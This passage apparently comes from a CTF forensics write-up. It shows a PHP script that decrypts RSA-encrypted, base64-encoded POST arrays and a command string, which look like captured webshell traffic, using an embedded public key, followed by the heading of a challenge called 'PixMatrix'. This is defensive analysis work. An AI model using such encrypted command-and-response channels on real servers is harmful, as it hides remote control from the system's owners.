$_POST[&#34;u51aea36fa19a7&#34;] = [&#39;QsXJKJ&#43;HbslLx5m2I3NOeM4bW62m7LWOrDehaEf6XfBjIvU03I5qrX3DPPiIXlovgL85iuAf5Z8vauDIY&#43;tCrNQxaefDg0UuhEVubSB/smQWDfFgbRfKRyF93GFCT2jEkhTO0rH0ohzTCYmMcQh&#43;2Sndhf717fUCzbyI8xmHk2eHZQGs5ICJTAMDGkfS9czxKPO10FO0iDxzJYBWDGan/oMftyDmbC2Y7NSeHJ0G6Lj&#43;RnUg5&#43;NlxQCm3HT8WXs87rNvzb5d&#43;H2YHEP594swVsQKstPKiXSPiPQiIfZRXhpXypNnYxd8YmkLngfDMVhttCWT&#43;NgnVGkHQZ6/sB13TQ==&#39;, &#39;lkg5ELvolihY/qU7jRsjXoFqK2eh/6Q/bM/s0L7cAZ9Nz7/99SKe7ez1uCQIaWdEtYrPYaWM0F5JqX/g9S0d8AZlUgg2LmwDJHwR8NLA5LMwohwsaYuIVJ/ojS0c8K1b&#43;qbnrIPO5bzy3VnVaM4kHdmDrEF5FvSbzEx2PmxJSuI=&#39;, &#39;njtBworWRl9RQtpVKnNbefSnJdWWSmTPMnSSVBHSCgRTglKsCKF&#43;jeqlhLy1O7Yda/H5hMF6OGMjn&#43;x&#43;bAHVYViWOwPBWRdNZbp8KteJvPfx&#43;8K&#43;X3BpmjmpsrgvS8f9PipgoCaQ5uGCt2MFTHidQ/Dl22Fv&#43;EY54IZpkzv6qMqHZQGs5ICJTAMDGkfS9czxKPO10FO0iDxzJYBWDGan/oMftyDmbC2Y7NSeHJ0G6Lj&#43;RnUg5&#43;NlxQCm3HT8WXs87rNvzb5d&#43;H2YHEP594swVsQKstPKiXSPiPQiIfZRXhpXypNnYxd8YmkLngfDMVhttCWT&#43;NgnVGkHQZ6/sB13TQ==&#39;, &#39;LhpEKqCGqIVO3UeoJMKOAld0Je185OIx3yxB277muqA2UIURtPGeskBh7ks2O4Yka1XK3kI/DBs8tNAbRXmDgDov7VhtdH1blRdd5qEnmzzyOQNGEnuDkTPxvmwTWmHGcX4HV4jJ5YkF/6l7t9N6WmV7jjVcnw8iJFhfPlrPEmQ=&#39;, &#39;bAV20O86Mjx9jAR&#43;1oTaFUokJgb8WwgG0kcuFomp3Z3oB2PhzdBmPnqgAsczLbw0MgjlomXcswh1ppWX&#43;UTZu1HEriKJ485h7uUSwralQ7AIpuHz0Te7EBk93rB6K9e5z2cVtr9AFS39iGBnGZz6POEfeUPBxr&#43;KPmffIty3&#43;pQ=&#39;, &#39;OBlv9&#43;3FmnsXIHz0e0SO5FSUyb5Vzk/lsszyuqgxI3LnyNyQJBLeUYJ6Z/Y&#43;mgPkPVTS3XXbl7dw9r96ise1P0oxQ1OpF3CduihESGhv8hsjsGtyodDVoOXX/IqafSG6A5&#43;RrrSE2QXSu1jR82eaKqz8tirqeDGjxvxQcP8hCHY=&#39;, &#39;NP80SyrmGiIns4eM5g&#43;ZxmKrDZeLZ&#43;Po50XYvL6jfnaKUmguyL4zyhmMP2pUc/lJKjAzNBwAuu8nzr59weMtfwWCnxxW&#43;odCniTloqtgjNz4XMfmFMQt9JyXimR7MmAZLslAAVQ3BqZi&#43;o5yAZolhhdWZFZID4eFeWUt90mH6foo3Kwv7cpKoucidOB4WmC&#43;cgQr8J4wV&#43;90ucZMShIACSDWIwzQkWf5ipKYX3TDPpxdx6mB/myr&#43;qSKvJ6cIMj2&#43;C2JcNeMugLFwPcz8FdYAeTNfS99HR2/s2wORcWPvjLgo81GJmY9hEynw0TiN6FsUfTTSXZZQrgawL3hVJihIQ==&#39;, &#39;liznpAZwDr08AvagvCka74dg8JEmt11DJA0gqntiVYfGiJXTXDDcwoEFAQjEtilhu/HriqBhs&#43;9MnHHehKNC7dqycC9Zee9QD1Dc3bVHNw&#43;qE8Xo47591rD2V4HieLMyVLPkS226cr2EEjcohq49czicdNuxS1174fJFVT5KaKYqzY8ePpqnDtVgQpOw2COA7Oynj8TMoDBjRdqj15Bi84zw2ccg6Co0MdfCSBKpNx2aXAU9W/3HTQK2o8NbYx0mX1iVQ2rKnUXfGcIzDDI&#43;lQFIelJ5IGBpiCZWhx2otRYOR89UkpGXQ34Om34s4iLtw/X8AMXkO&#43;opsVEzOPJchQ==&#39;, &#39;kYmwYioUXSEJdbQGaZNF2F8hELzyhWJt7pTcT0xrMd6wLmD/nKvZTUztFzbvH4ESRmmC&#43;QsncW&#43;vw4hTflc0DkO9g9PCiCp7GjS8aEpIT/9IivgMatu1gQmkQSLiJHSc1Krhgd03LWbHax23GjcXn1Wl8I5DKXeLAst4bx7WWr6HZQGs5ICJTAMDGkfS9czxKPO10FO0iDxzJYBWDGan/oMftyDmbC2Y7NSeHJ0G6Lj&#43;RnUg5&#43;NlxQCm3HT8WXs87rNvzb5d&#43;H2YHEP594swVsQKstPKiXSPiPQiIfZRXhpXypNnYxd8YmkLngfDMVhttCWT&#43;NgnVGkHQZ6/sB13TQ==&#39;, &#39;m4CmQPu0sxKIydnnGtkWSfc34mLRJj&#43;Rh7&#43;8nWU2ZF8T2E1u2yBt/JDaSjM&#43;Upa52PjbxQYZ0/V&#43;SnRv3qmARNOpH5Snqjm60YYlMbNH7ajDeojHAMVe7YqQ3gdFThdqEQq1qKBxPfVDPodlbvRDKvy272MxDEPl6hntE&#43;cQedU=&#39;, &#39;SpdmQo8YK6Iag/3iNakttTCsmjdZN&#43;VU9AakLngsk00A9jL6e5zyjPF5ePQpXrXxy2ZjSXLfS5J9t7xatfP6Rqjsl/7UQU&#43;jrfgLE9fejXv0mOSDjZuu&#43;4Qaw8eLX0QIbohjkI6eyTHcKBDITcEt2oe6vBG4re29lCopCaXOo&#43;RXtS3zvuPe3777naWT4eyOkZV2dNROvyUlPdUky5ElfEo9qkqr9nQ9UJqOPfRQFw0HV&#43;WkoY6lWCewG8O1kb08iULwTsaiLwq0WFq5gnF0GR1GjhbTDuqPxA0ad97Rkf2U/GVkGlyozThVYOlmsOiWbl73Lq1AUX2MDvN8JIMBDIPAxtO0It5WqDzr1Lmbn6IwxsUtkm9OVkibNNWDnsYu/ZooBtPaeWiR6orGpORfHgWGAJtZJbxFpgecvlwpyET04/co0wwJsleK9h6DQNI786xi9GKHhzkOs9JzeBwO6bPjgGQhhAY&#43;YqOr&#43;A68x7YINw2UOr7f3VaiWP5hWZQlG0X5yVhMVPiYvvcvYBF7/ZafdeifZYG2vYJmtD2kZ9wlTnwFXujUeqMGVHtIIE4RBpAN1nTVxaPlCpDLR7cZBCcWbeEbVgoUco2dFUuq6JUP/lVCRQu/O6A5hlrqYbNP/ZHErvn8V4/oymBeF7BngUkDnPcKL7ueoRVBC2WoYgyVVCy5A4de/gQwBR6qTJi7mCPHr/bA6JWeJDt3iG4y6AY4QcW9/vBrdC39uLgxo2reVljQZ/riC3la70g5DnGTHd/mdo5VYN6PhwHLtya7H1fAlS37/&#43;ybggDyECtO9/RogvrLuI4QWdEFh3aZkavAiYXFdqOfB4tdxgRZCyninwmtSq0Zuylv8O3K0ZZCm1r8fpUhOM/5u5ti8xew2d&#43;RM57rdaXvNSyoqg404M6adNfG6&#43;cyaoHJBGzr4ET6fdO7dkgUt8rsdgW6JztH6epw4XxZ&#43;fiw&#43;jGL5RxXg0xHD9WLNnh02cwWo2FSTPLgowwFvfwGDHjMH/HtgJKROjknhNRrDAW&#43;Uz/RXWkZJoIj1ypbSIhWjVCBsHwc5McpUnfK/iL8wudMkIztSBS9Z9n2SRAIOwgalrnOMuVeS5dNd8WmHzDOC3pQ2rZ/vjy18UIYJkVzxrPw79GHmjSlUWouSs3tQwlQ5WhkK2lGl8vTBLDNJA7R2/O5b2MEz7BDnNA=&#39;, &#39;ZiKfh/mdWXeAMBngvBKOGSXMnHdMjBt774kcjbn1cXl6l32kZi6Bv3949cEjAy4PQwQJWlTxmMT&#43;JD0aZ4mkZN9S5lhNZIg1T29KxU/oryNonP0aVoTsYvqgiqjoaPZ6tRzjnNSujojyelHISea7W9ZgFdqHOn3X4/SMNYjo0u0=&#39;, &#39;BLHRbtBoY&#43;9jjKwUn3g/6VjqpEGtzEorD2bcNsSnGNTh365TacqwN6vG0ONzTjdHkdd8YhhtPvFsLDAj9Tkn3XRHzCEVFf6oao2xivHpDC0w5e1RniXFpl5DlA2R&#43;XfyxxN0oDHgdtemCCwotSX9/D6TX28nFvmpVPxoX7IBtV5NVSt9nTbnDQp/UEEPKmpH3g8bt4UETFoJ086J9yNOS5J9uHSdmWBa3vQVor0gUay9tb4Gi9YpztDcLD9mA/C8aThpNED3ybAEHF1JK8&#43;So/L3Kw9K&#43;M7uW&#43;9fkFIkUhWxFk9&#43;a&#43;W6fIPR2YDn4IcUmuh6Pw7M2NKzkM&#43;QIyZ/fg==&#39;, &#39;nD0ETT7Mzl7&#43;XF5kZhI0pIuONkncH5dNPVGzS5jaAS2Pcpva/SdCkCaRkg4C9s2uZrBEkWWFWM/7gx/tlmJYHM/6cwIlbk9PLJAVcUrw6Ecgx6hiEbP4dWcKg2VSzwacsyozCGeMeZV3LQCGRTfi6ewm/QpW&#43;mujiQH38sj4/N5NVSt9nTbnDQp/UEEPKmpH3g8bt4UETFoJ086J9yNOS5J9uHSdmWBa3vQVor0gUay9tb4Gi9YpztDcLD9mA/C8aThpNED3ybAEHF1JK8&#43;So/L3Kw9K&#43;M7uW&#43;9fkFIkUhWxFk9&#43;a&#43;W6fIPR2YDn4IcUmuh6Pw7M2NKzkM&#43;QIyZ/fg==&#39;, &#39;PDMzPKDsBdh0LHO&#43;RJn7G&#43;bShEVxn5hwPb5RfzwLjZIhvHQdWat&#43;S34q&#43;e8G9yfJWrTYg8StP9AjDGyLK/TcWtI6eY&#43;VRGUvUJ4fGMoT09sS6zILqDInOzHrhEHin4IgkowJoF3TFX2KukR38LZgKn5VKi9F7Ue0l2hqeO0IRq8c69F5II1xspprr2YGy3hU9nO38KTUD/4kPbuu8rsit4/BSdJdWv4&#43;xIjEcS11SzTMWemzVGMv/Ax/NiZGtJFCaW3XB0w0M1XWXG8ewGmpj/8u&#43;VzPoDXhWCrYRvsw5mZdQ5FFmHHCU5mtMsI3mGNjnmUnD5IXbV6TfcQmlPrs0w==&#39;, &#39;lTtqYzsk9q59ReMvJUcP5fKUYoxfZQS9QmOyjqbBvy/9wAX16xpnqmhUlwHIDNAlz9nIZPCJHjV66Ey/S7px2UW&#43;921Lm1a2YocFcTkDS7zqNqDaoS0cpigSTB4skhRR7pAe43n3CCbvRlF6sI/uOZxUnfg2nXHkhAyDGJsCxgQ=&#39;];

$_POST[&#34;y21db7ea65d36d&#34;] = [&#39;ZqGizxiHeHVBCCyvo46huPPtI7TBLmoEQP/GX9AGPW1ewqeV&#43;9/LeJVWT1o0ALkFCVj1DDfutzXfrIQdpVh&#43;HBoVUiGjjG8sSRiEPfRJmzAzVxR&#43;9nnwrF4EObavmAA3Hh/0TBtirl&#43;9iUEU8bN5TrnV6Gq5y2RbYeE3Mri2K/0=&#39;, &#39;b46b/qgtImXh6TF3gxU2HZHjmKbjhV5WXV5d1wqTANk6v7RKgR/Tq/IzYnIGwduVwwX2mf/kXl2OwqEwmhaqc2xoUK0EytOYe8y&#43;tw&#43;oE8C1AGMVEPVEH/LM77s4iU81SQqr5nPHQjSprv8UQR0tIUfB42JgSuw82SxoR8T3Nc0=&#39;, &#39;g8K2XGqaUSdc2og56FbCAgHsAdlcxQajw7hJ5cUOe2ix93yk8MhwnWvAkHcXy/PQG9Da9ScixBzJFw/dnINflq4yLkp8N/07JSZgg7DPLz/o1se4&#43;yMv6H&#43;IP2cD0Q1UU2n4PAEbCtAA60m0kczWz/fE81DbVj6JxgWl&#43;EmElOI=&#39;, &#39;Wjero64jDdIPWXLGz1rrNCfjcjJhJlH2NmUIT8WK7thISuS/Bm7RnnFyIC4jnkhuX4ZTtsY3IWuAO41R2JfBcZi5fZlPDLdDn5ojOmm5CRcHacCFy7KTmDtYtSsjD5vzBaKrMfF2tRN8bnd8CT91V6rg40ff2&#43;9HvHjH7BBhXUI=&#39;, &#39;aG30z0UroESpnX1CNbp2HS4DrVWrtqOWs1Jpw5ONcWdr64bkB05DdNHpW5Nqh9xVvlJTuVXWyrPc4V12GwmuN4ifN8TtHCq1n4/TnY/BerzzYaXrp89iXXkXmwRUFEqJ&#43;iOVNjAzfdTdnRPaMPtRUFQjugF0U&#43;3AYa9SrnsLrLk=&#39;, &#39;QCXq2VxN88Rey14xm35TsRqAj1cbIgKma0PxY2qrJ6DRD8D6JhT0CbF37pQDUyFU1iuBhR/h4tVd/k8PCBRoKOPF2R/1jDol3EQAWLSYZUd8mOCY72XD2wnnltTTHqB26N5nbm6qaGx5fi0PWH&#43;&#43;Ds0mrCiJsE2&#43;fMFIXDGCXag=&#39;, &#39;kqNJjIRlbVMlD8E5yPJmYBzTNKxSVpKARQOeA2K9SCUeMZEARoaru3aL91Qefzo/fhWCWEwieXyeBZdjE8c1dY73u7D/jneXW68krQXndzrNwFTDQRyiOvZJRREQ7ZNOyDmB7ltpLv&#43;mizWTv/bQezF7sbIh4KswbjXuCj8w0NE=&#39;, &#39;BvzvMn7WAaWgqdlyMbUzEzgRDr3PFNgwIClZ3C7JTMMTqhErpNgvrLxHVoNelTJsj9y1VatUKGRir9qs67L&#43;&#43;SYMICBLTiu3ZctGtdmsxufbTMYfWr8EbiiDd0bYhPvYbzlHU1MlI&#43;fpEUUrGckC5caeVcHaqNB7tdhDJvFms4E=&#39;, &#39;ecC2GvhvXqIFNVLx8g1YPX&#43;VeUOiFKLDHik8NnmrCbPQFtduUwvhiMT2joMHhr5f5fOVi/jpwrlC2yR2jhPDtmIl8nkJqnTd&#43;uBykNguN5moHixbKWMMv8HYejnT7CLGmTxLDzTrQlICua&#43;4O31jOOmDrrLuUdLKI2uaQ1FUAMc=&#39;, &#39;Hg8A03izTr7zhommneQYE2d9UO&#43;EpWtU3Q9rYM3YnJf7SkVcw9&#43;NHKno7COU1NVbXiHJjV2bTDcVnAkQeJJqZGXNJfR3kSo3XYlwXZGWatrccd/ADyu7E&#43;Bt4oXtp4pDpafhDJLh40cd6jprQnIYxDYBcs4o6CJjvR7JpOLmC0A=&#39;, &#39;YsLUw&#43;DPF6JpxvD0B8blORoPd3xe6y4P0gYWlHgRwnlCRjyS3LlKRbY2lqrtulh/MRz0yGOSYjifa0c4sbqsbIf&#43;ENFXmiqqm3ySPjXWl4z2wdrZMEV4ZXp6VXTxNk6cizDoONBDXXuTziZDB&#43;DAev3&#43;6HHtaI5tspkMVap2ou4=&#39;, &#39;GyS1qCDux10wqJhGI7tKn4MTwRiRhAMoN3/DpO2ehtOkp/G0tS1Dhi8tdpWU6OqqtxPs/6G/GqEoC1PU2StQzal0QO06pAXixlMvx1lkHmAOAj7GI5vWnETeyrTUBkGwdRki3&#43;VlvU1eUOVhJLg046EMaJsy5z4Zz7Xn&#43;&#43;d1BsM=&#39;, &#39;KY2kr0R6yNTgxw40gZEZKGfZslgQEEEOqRADN2skaB&#43;hdfniw7t/eV7YrDbJfkzaPo&#43;oUGbebR4IRPcWgeIYJjtte9h/y/ugcFu2SmZ6PEIp35gin1LKqWehNA9gnXeRVP/zpAD7kmVK5PMfWU32V7lvp6Dn00KdpH5CPHWcQO8=&#39;, &#39;IRX0gA23Zu3I8rlcswv&#43;iqJIfs3Kf5jKmiq3FrB0Zcs2N7VfZE7y3qy7/T2OAC98KrO874t0tOLDxhBw6hDz6zKRINRjZLy4cQC1MhUWJG0lqX2cI25ePHfmPUpFnRUzZBBkuP7TqFO&#43;PzJiLA8V9cxe7uWpt2dw/cC11r&#43;k29Y=&#39;, &#39;MmCqLxv78f&#43;GCRBM16oPUgQCiSn6yB9O0UuVILu/e0ISAWsXvInQT&#43;VqU3dORntNyV5&#43;VSbrn7u0in1c4PJHz5oH0wVcdwVbeH&#43;K6CLOVF43Pi1HkWiKREECpLKO8ClDkDLeAbZ5SVgSjVuUqVT5f4TOKKSB/EZVnWlIE1PJrH4=&#39;, &#39;gyfTIHW5Ov921U8HQ/3qENdIwwMoBm8JJ0KI1XoLBNDDEYLKX8&#43;EGNlNZikwBCOPNiP8FYftgUTQzS5DokJzDm4TG89k49i1In8Oeekdb1phbZkUWpboWv9&#43;VPTEc5VH&#43;wCM/l8FA0wvZsm/iqfwe6grn3C6PUNP&#43;AOo0QcywKw=&#39;];

$pk = &lt;&lt;&lt;EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCfhiyoPdM6svJZ&#43;QlYywklwVcx
PkExXQDSdke4BVYMX8Hfohbssy4G7Cc3HwLvzZVDaeyTDaw&#43;l8qILYezVtxmUePQ
5qKi7yN6zGVMUpQsV6kFs0GQVkrJWWcNh7nF6uJxuV&#43;re4j&#43;t2tKF3NhnyOtbd1J
RAcfJSQCvaw6O8uq3wIDAQAB
-----END PUBLIC KEY-----
EOF;

$cmds = explode(&#34;|&#34;, $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = &#39;&#39;;
foreach ($cmds as $value) {
    if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
        $cmd .= $de;
    }
}
//echo $cmd;

$length = count($_POST[array_key_first($_POST)]);  // 获取任意一个子数组的长度
//echo $length; // 16

for ($i = 0; $i &lt; $length; $i&#43;&#43;) {
    $res = &#34;&#34;;
    openssl_public_decrypt(base64_decode($_POST[&#34;l6eca85c56d82c&#34;][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2)) . &#34; &#34;;
    openssl_public_decrypt(base64_decode($_POST[&#34;u51aea36fa19a7&#34;][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2)) . &#34; &#34;;
    openssl_public_decrypt(base64_decode($_POST[&#34;y21db7ea65d36d&#34;][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2));
    echo $res . &#34;\n&#34;;
}
```


## 题目名称 PixMatrix

---

> Author: [Lunatic](https://goodlunatic.github.io)  
> URL: http://localhost:1313/posts/69e332a/  

